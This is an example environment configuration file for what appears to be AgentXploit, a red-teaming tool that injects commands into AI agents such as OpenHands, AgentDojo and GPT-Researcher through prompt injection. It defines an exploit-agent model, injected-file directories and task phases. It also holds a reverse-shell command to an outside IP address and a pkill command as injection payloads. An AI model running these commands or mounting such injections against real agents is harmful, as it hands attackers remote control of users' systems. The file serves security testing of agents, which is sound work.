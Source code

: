 # OpenAI API Configuration
OPENAI_API_KEY=enter_your_key_here
OPENAI_BASE_URL=enter_your_base_url_here
# Model Configuration per Agent
DEFAULT_MODEL=openai/gpt-4o
ROOT_AGENT_MODEL=openai/gpt-4o
ANALYSIS_AGENT_MODEL=openai/gpt-4o
LLM_HELPER_MODEL=openai/gpt-4o
EXPLOIT_AGENT_MODEL=openai/gpt-4.1-2025-04-14
# Directory Paths
TRAJECTORIES_DIR=path/to/AgentXploit/trajectories
ANALYSIS_DIR=path/to/AgentXploit/analysis
INJECTED_DIR=path/to/AgentXploit/injected

# File Names
SWEBENCH_FILE=SWEBenchlite.json

# Command Configurations
PKILL_COMMAND=pkill -f "action_execution_server"
REVERSE_SHELL_COMMAND=bash -i >& /dev/tcp/152.2.134.17/4444 0>&1
CUSTOM_TASK="Print 'hello, world!' to the console."
RUN_COMMAND=""
TIMEOUT=600
# Note: To use CUSTOM command type, set DEFAULT_COMMAND_TYPE=CUSTOM and define CUSTOM_TASK above

# Note: Injection Strategy Templates moved to library (src/AgentXploit/tools/exploit/injection_wrappers.py)
# Use injection_wrappers.get_technical_wrapper(command) instead of reading from env

# CLI Default Settings
MAX_WORKERS=3
MAX_FILES=100
MAX_STEPS=100
ANALYSIS_MODE=intelligent

# Default Command and Strategy Types
DEFAULT_COMMAND_TYPE=PKILL
# DEFAULT_INJECTION_STRATEGY=TECHNICAL  # Removed: Let model choose strategy automatically
#DEFAULT_DOCKER_COMMAND="docker run -d --rm --pull=always -e SANDBOX_RUNTIME_CONTAINER_IMAGE=docker.all-hands.dev/all-hands-ai/runtime:0.49-nikolaik -e LOG_ALL_EVENTS=true -v /run/user/$UID/docker.sock:/var/run/docker.sock -v path/to/OpenHands/shared:/shared --add-host host.docker.internal:169.229.219.180 --name openhands-app docker.all-hands.dev/all-hands-ai/openhands:0.49"
DEFAULT_DOCKER_COMMAND="docker run -d --rm -e MODEL=gpt-4.1-2025-04-14 -e OPENAI_API_KEY=xxx -e OPENAI_BASE_URL=xxx agentxploit-agentdojo tail -f /dev/null"

# General Agents Running Conigurations

#PHASE-2 config
PHASE_2_EXECUTION_COMMAND="bash get_report.sh -s workspace -ut user_task_15 -it injection_task_1"

REPORT_PATH="/work/report.txt"

#PHASE-4 config
PHASE_4_EXECUTION_COMMAND="bash run_agent.sh -s workspace -ut user_task_15 -it injection_task_1"
PHASE4_WORKSPACE="/work"
INJECTION_JUDGEMENT=""
RESULTS_DIR="path/to/AgentXploit/exploit_trace/agentdojo"


#GPT-Researcher
DEFAULT_GPTR_DOCKER_COMMAND="docker run -d --rm --name gpt-researcher --env-file .env  -v path/to/gpt-researcher:/my-docs  gptresearcher/gpt-researcher tail -f /dev/null"
PHASE_2_EXECUTION_COMMAND_GPTR="python test_run.py"
REPORT_PATH_DIR_GPTR="/usr/src/app/outputs/"
LOCAL_FILE_DIR_GPTR="/usr/src/app/my-docs/"
INJECTION_CONTENT_FILE_GPTR="path/to/AgentXploit/inject_content/injection_content.txt"
PHASE_4_EXECUTION_COMMAND_GPTR="python test_run.py"
